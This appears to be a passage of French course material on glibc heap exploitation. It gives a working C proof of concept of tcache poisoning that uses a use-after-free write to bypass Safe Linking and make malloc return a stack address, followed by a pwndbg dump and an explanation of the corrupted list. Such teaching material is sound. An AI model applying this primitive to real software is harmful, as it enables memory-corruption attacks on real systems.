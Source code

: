 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main() {
    // 1. Définition d'une cible sur la pile (stack)
    size_t stack_var[0x10];
    size_t *target = NULL;
    
    // Cherche une adresse sur la pile correctement alignée pour le tcache
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);

    // 2. Allocation et libération pour peupler le Tcache
    intptr_t *a = malloc(128);
    intptr_t *b = malloc(128);
    free(a);
    free(b);
    // Le Tcache est maintenant : B -> A

    // 3. Vulnérabilité : UAF et contournement du Safe Linking
    // L'opération suppose que l'adresse de b est connue
    b[0] = (intptr_t)((long)target ^ (long)b >> 12);
    // Le Tcache est maintenant : B -> target (voir bins ci-dessous)

    // 4. Exploitation : Détournement de l'allocateur
    malloc(128); // Le 1er malloc retourne B

    // Le Tcache est maintenant : target
    intptr_t *c = malloc(128); // Le 2ème malloc retourne directement notre cible

    assert((long)target == (long)c);
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x90 [  2]: 0x5555555593a0 !\textcolor{pwndbgblue}{—>}! 0x7fffffffd470 {stack_var} !\textcolor{pwndbgred}{<-}! 0x7fe7ffffd
    fastbins
    empty
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

\paragraph{Interprétation de la corruption (Flèche rouge) :}
Dans la sortie \texttt{pwndbg} ci-dessus, la flèche rouge \textcolor{pwndbgred}{<-} signale une rupture de la liste chaînée. L'outil d'analyse tente de lire le pointeur \texttt{fd} suivant à l'adresse de notre cible sur la pile, mais n'y trouve que des données résiduelles invalides (ici \texttt{0x7fe7ffffd}).

